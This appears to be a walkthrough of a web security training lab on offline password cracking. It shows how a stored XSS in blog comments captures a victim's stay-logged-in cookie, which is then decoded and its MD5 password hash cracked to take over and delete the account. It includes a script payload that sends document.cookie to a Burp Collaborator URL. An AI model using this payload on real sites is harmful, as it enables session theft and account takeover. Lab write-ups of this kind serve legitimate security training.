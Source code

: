 # Lab: Offline password cracking

> Lab Objective: obtain Carlos's stay-logged-in cookie and use it to crack his password. Then, log in as carlos and delete his account from the "My account" page.

- Login using provided credentials `wiener:peter`, then inspec the login process.

- The Login Process with 'Stay Logged in' option enabled:

  1. Enter your credentials (username & password), if valid you'll be issued a `stay-logged-in` cookie.
     ![1st screenshot](./attachments/1.png)
  2. You'll be redirected to your account page.
     ![2nd screenshot](./attachments/2.png)

- The `stay-logged-in` cookie, you can Base64 decode it and it'll be consisting of:
  - The username.
  - the password (hashed using MD5).
    ![3rd screenshot](./attachments/3.png)

![4th screenshot](./attachments/4.png)

- There is an XSS vulnerability within the posts comments, for instance post the following comment:
  ![5th screenshot](./attachments/5.png)

- And the alert will be executed.
  ![6th screenshot](./attachments/6.png)

- Therefore, in order to capture Carlos's cookie to be able to crack his password use the following payload:

```js
<script>document.location="BURP-COLLABORATOR-URL?key="+document.cookie</script>
```

![7th screenshot](./attachments/7.png)

- View Burp Collaborator, then poll now, you'll find requests made to your server, which includes the HTTP request with Carlos's `stay-logged-in` cookie (the cookie = `stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz`)
  ![8th screenshot](./attachments/8.png)

- Take the value of the cookie, decode it as Base64 then take the hashed password and find the original value of it.
  ![9th screenshot](./attachments/9.png)
  ![10th screenshot](./attachments/10.png)

- The victim's credentials will be `carlos:onceuponatime`, use them to login as Carlos.
  ![11th screenshot](./attachments/11.png)

- When deleting the account, you'll be prompted to enter the password, enter it then delete the account and the lab is solved.
  ![12th screenshot](./attachments/12.png)
  ![13th screenshot](./attachments/13.png)

---
